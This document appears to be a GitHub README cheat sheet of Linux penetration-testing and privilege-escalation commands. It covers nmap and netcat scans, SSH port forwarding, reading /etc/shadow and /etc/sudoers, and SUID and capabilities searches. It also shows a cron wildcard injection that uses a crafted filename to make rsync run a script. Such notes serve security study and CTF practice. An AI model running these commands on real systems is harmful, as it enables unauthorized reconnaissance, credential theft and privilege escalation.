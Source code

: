 



* [Find SUID-bit set files](#suid-binary)
* [Host Discovery](#host-discovery)
* [Port Scan](#port-scan)
* [Port Forwarding](#port-forwarding)
* [Sudo usage](#audo-usage)
* [Find executable with capabilites](#capabilities-executable)
* [Exploiting wildcards crons](#wild-wildcards)
* [LinEnum.sh](#linenum.sh)




## Listening ports
 `$ netstat -l`

## Host discovery
Assuming that you wanna discover on 10.10.10.0/24 network:

 `$ nmap -sP 10.10.10.0/24`

## Port Scan

Normal scan  

 `$ nmap -sC -sV <<TARGET IP>> -o output_file.nmap`  
All ports scan
 `$ nmap -A -T5 -p- <<TARGET IP>> -o output_file.nmap`  
UDP scan 
 `$ nmap -sU <<TARGET IP>> -o output_fileudp.nmap`  
with ncat
 `$ nc -v -z <<TARGET IP>> 1-9999`

## Port Forwarding
SSH local port forwarding
 `$ ssh -L 9999:google.com:80 user@remotemachine`  
SSH Remote port forwarding
 `$ ssh -R 9999:localhost:1025 user@remotemachine`
in a nutshell:
 `$ ssh -R remoteport:localaddress:localaddressport user@remotemachine`


## Sudo usage

the first thing that we must do in a new machine:  

`sudo -l`    

`cat /etc/passwd ; cat /etc/shadow; cat /etc/sudoers`




## suid binary

`$ find / -perm -u=s 2>/dev/null`


## Capabilities executable

` find / -type f -print0 2>/dev/null  |  xargs -0 getcap   2>/dev/null`


## Wild Wildcards

When a cronjob is running with a wildcard as * as arguments, it can be exploited:

example:  

	- cron :  

	> $ rsync /backup/* rsync://backup:/src/backup-server/

We can create a file that gonna act as an argument, like:  

	> $ touch -- "/backup/-e sh evil_script.sh"

The final command will be executed as:  

	> $ rsync -e sh evil_script.sh rync://backup:/src/backup-server/   


rync will execute the script as the user who runs the cron :D


## LinEnum.sh

Bash script tool who gives you a entire surface map of the system :D  

- [LinkToLinenum](https://github.com/jcatala/h4ckme/tree/master/enumeration/linenum.sh)
- [Link to official repo](https://github.com/rebootuser/LinEnum)





